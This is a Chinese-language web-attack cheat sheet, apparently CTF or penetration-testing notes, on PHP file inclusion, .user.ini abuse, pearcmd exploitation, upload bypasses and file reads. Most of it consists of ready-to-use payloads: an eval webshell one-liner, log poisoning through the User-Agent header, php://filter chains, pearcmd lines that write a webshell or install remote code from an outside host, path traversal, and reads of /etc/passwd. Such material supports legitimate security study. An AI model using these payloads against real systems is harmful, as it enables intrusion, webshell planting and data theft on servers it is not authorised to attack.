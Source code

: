 [实战 | 文件上传漏洞之最全代码检测绕过总结](https://mp.weixin.qq.com/s/6ArBgNYpsQH7WkaaJY6GfQ)

# LFI/文件包含

| Name                                                   | payload                                                                                                                                         |     |
| ------------------------------------------------------ | ----------------------------------------------------------------------------------------------------------------------------------------------- | --- |
| `?file=index` 或 `?file=index.php` 有可能需要去掉 .php |                                                                                                                                                 |     |
| `?file=php://filter/convert.iconv.UTF-8.UTF-7/resource=flag.php` <br> `?file=php://filter/convert.iconv.UTF8.CSISO2022KR\|convert.iconv.ISO2022KR.UTF16\|convert.iconv.L6.UCS2/resource=flag.php`| UTF-8过滤器 , 可以上面两个联合用
| PHP_INCLUDE_TO_SHELL_CHAR_DICT                         | 文件包含即命令执行   [原理](https://goodapple.top/archives/968) |     |
| glob://                                                |                                                                                                                                                 |     |
| 上传 a.zip 改为 a.jpg                                  | zip://伪协议进行包含 一句话 a.php `<?php @eval($_POST['a'])?>` <br>url: `http://xxx//index.php?url=zip:///app/upload/pic.jpg%23basic.php` 密码为 a      |
| pearcmd.php 包含  | [#pearcmd](#pearcmd)
| 日志包含                                               | 1.抓包修改 Agent 访问 2.包含日志 /var/log/nginx/access.log                                                                                      |
| phpinfo中 `allow_url_include=On;allow_url_include=On`时 | 可 ?file=http://xxx.com/1.txt 远程包含
| 使用 [.user.ini](#userini) 进行包含                    | auto_append_file=2.jpg                                                                                                                          |
| Nginx 0.8.41 ~ 1.4.3 / 1.5.0 ~ 1.5.7                   | [CVE-2013-4547](exp/Nginx%20%E6%96%87%E4%BB%B6%E5%90%8D%E9%80%BB%E8%BE%91%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2013-4547%EF%BC%89.md) requests_demo.py |

## .user.ini

相当于 `include('xx.txt')`

| Desc           | .user.ini                                    | payload                                                                                |
| -------------- | -------------------------------------------- | -------------------------------------------------------------------------------------- |
| 包含 post 数据 | `auto_append_file=php://input`               | url:`index.php` <br>body: `<?php phpinfo();?>`                                         |
| 日志包含       | `auto_append_file=/var/log/nginx/access.log` | url:`index.php` <br> body: `1=phpinfo();`<br>usUser-Agent: `<?php eval($_POST[1]);?> ` |

## pearcmd

1. 知道pearcmd.php文件的路径（默认路径是/usr/local/lib/php/pearcmd.php）, phpinfo中的 `include_path`
2. `register_argc_argv=On`
3. payload `要用burp发`

```sh
# 不出网
index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=@eval($_POST['cmd']);?>+/tmp/test.php
a1.php?file=/usr/local/lib/php/pearcmd.php&+config-create+/'<?=phpinfo()?>'+./info1.php

# 出网
index.php?+install+--installroot+&file=/usr/local/lib/php/pearcmd.php&+http://xilitter.top/123.php
```

# Python

```sh
/download?file=../../../app/__pycache__/part.cpython-311.pyc
```

# 文件上传

- %00 截断 php 版本小于 5.3.4
- 上传为zip为 pic.jpg, zip://读取 url: `http://xxx//index.php?url=zip:///app/upload/pic.jpg%23basic.php` ,需要将#编码为%23
- 上传为zip用phar去读
- 上传时和文件相关都可能是 phar 反序列化,如 `file_exists($filename)` 考虑 phar 反序列化 `phar://abc.phar.gif/test.txt`
  - 能进行攻击的远不至于 file_get_contents，所有的文件函数都会导致这个问题
- 压缩包软链接，传到/tmp/data 下, ，这个软链接指向 flag，即可获取 flag

```sh
# 触发  phar 反序列化
fileatime / filectime / filemtime
stat / fileinode / fileowner / filegroup / fileperms
file / file_get_contents / readfile / fopen
file_exists / is_dir / is_executable / is_file / is_link / is_readable / is_writeable / is writable.
parse_ini_file
unlink
copy
```

# 文件读取

url=file://127.0.0.1/etc/passwd
url=file:///etc/passwd
